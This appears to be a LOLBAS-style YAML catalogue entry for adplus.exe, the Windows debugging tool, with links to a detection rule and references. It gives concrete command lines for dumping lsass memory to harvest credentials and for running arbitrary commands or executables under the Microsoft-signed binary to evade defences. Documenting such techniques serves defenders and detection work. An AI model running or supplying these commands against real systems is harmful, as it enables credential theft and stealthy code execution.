 ```yaml
---
Name: adplus.exe
Description: Debugging tool included with Windows Debugging Tools
Author: mr.d0x
Created: 2021-09-01
Commands:
  - Command: adplus.exe -hang -pn lsass.exe -o {PATH_ABSOLUTE:folder} -quiet
    Description: Creates a memory dump of the lsass process
    Usecase: Create memory dump and parse it offline
    Category: Dump
    Privileges: SYSTEM
    MitreID: T1003.001
    OperatingSystem: All Windows
  - Command: adplus.exe -c {PATH:.xml}
    Description: Execute arbitrary commands using adplus config file (see Resources section for a sample file).
    Usecase: Run commands under a trusted Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: All Windows
    Tags:
      - Execute: CMD
  - Command: adplus.exe -c {PATH:.xml}
    Description: Dump process memory using adplus config file (see Resources section for a sample file).
    Usecase: Run commands under a trusted Microsoft signed binary
    Category: Dump
    Privileges: SYSTEM
    MitreID: T1003.001
    OperatingSystem: All Windows
  - Command: adplus.exe -crash -o "{PATH_ABSOLUTE:folder}" -sc {PATH:.exe}
    Description: Execute arbitrary commands and binaries from the context of adplus. Note that providing an output directory via '-o' is required.
    Usecase: Run commands under a trusted Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: All windows
    Tags:
      - Execute: CMD
      - Execute: EXE
Full_Path:
  - Path: C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\adplus.exe
  - Path: C:\Program Files (x86)\Windows Kits\10\Debuggers\x86\adplus.exe
Code_Sample:
  - Code: https://gist.github.com/nasbench/e34ca2cd90e3a845a558a102a4f607da
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6199a703221a98ae6ad343c79c558da375203e4e/rules/windows/process_creation/proc_creation_win_lolbin_adplus.yml
  - IOC: As a Windows SDK binary, execution on a system may be suspicious
Resources:
  - Link: https://mrd0x.com/adplus-debugging-tool-lsass-dump/
  - Link: https://twitter.com/nas_bench/status/1534916659676422152
  - Link: https://twitter.com/nas_bench/status/1534915321856917506
Acknowledgement:
  - Person: mr.d0x
    Handle: '@mrd0x'
  - Person: Nasreddine Bencherchali
    Handle: '@nas_bench'
---
```

